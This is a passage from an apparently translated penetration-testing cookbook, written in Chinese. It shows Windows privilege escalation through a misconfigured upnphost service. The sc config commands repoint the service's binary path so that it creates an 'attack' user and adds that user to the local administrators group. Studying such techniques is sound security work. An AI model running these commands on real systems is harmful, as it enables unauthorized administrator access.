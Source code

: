 1.  我们看到我们的命令已成功执行。现在让我们通过发出以下命令来验证并重新启动服务：

```
sc qc upnphost
      net start upnphost

```

输出将如下截图所示：

![操作步骤...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_09_019.jpg)

1.  完成后，我们会看到一个服务无响应的错误。然而，这是注定会发生的：由于二进制路径不正确，它将尝试使用系统权限执行二进制路径。在这种情况下，它应该创建一个用户。让我们通过发出以下命令来检查：

```
net user

```

输出将如下截图所示：

![操作步骤...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_09_020.jpg)

1.  `attack`用户已成功创建；然而，它将是一个低级用户。让我们重新编写二进制路径。再次启动和停止 UPnP 活动，并获得管理员权限：

```
sc config upnphost binpath= "net localgroup administrators        attack/add"
      net stop upnphost
      net start upnphost

```

输出将如下截图所示：

![操作步骤...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_09_021.jpg)

1.  让我们检查用户 attack 的用户详细信息，以验证他/她是否已成为管理员用户：![操作步骤...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_09_022.jpg)

## 工作原理...

我们在这里看到的是一个普通用户能够创建一个用户并将该用户也设为管理员。通常只有管理员或系统用户才有权限；漏洞存在于`upnphost`服务中，因为它已经给予了所有用户对服务的访问权限。让我们分析这些命令：

+   `accesschk.exe /accepteula -uwcqv "Authenticated Users" *`：`accesschk.exe`文件是一个检查特定服务访问权限的工具。`/accepteula`命令是为了在我们不得不点击**我同意**继续的许可接受通知时静默地绕过。

+   `sc qc upnphost`：`sc`是一个用于与 NT 服务控制器和服务通信的命令行程序。`qc`命令查询服务的配置信息。

+   `sc config upnphost binpath= "net user attack attack@123 /add"`：`config`命令指定了对服务配置的编辑。在这里，我们将二进制路径设置为创建一个新用户。

+   `sc config upnphost obj= ".\LocalSystem" password= ""`：`obj`命令指定了服务二进制文件执行的类型。

## 还有更多...

正如我们所看到的，还有一个服务是有漏洞的。看看是否也可以通过该服务提升权限是个好主意。
